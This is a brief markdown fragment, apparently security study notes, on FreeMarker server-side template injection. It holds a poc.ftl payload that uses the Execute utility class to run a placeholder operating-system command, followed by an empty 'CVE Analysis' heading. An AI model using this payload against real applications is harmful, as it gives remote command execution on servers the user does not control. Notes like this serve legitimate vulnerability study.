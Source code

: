 
## FreeMarker
Templete - upload - insert data - render
 ```
 poc.ftl
 <#assign value = "freemarker.template.utility.Execute"?new()> 
 ${value("cmd")}
 ```

## CVE Analysis

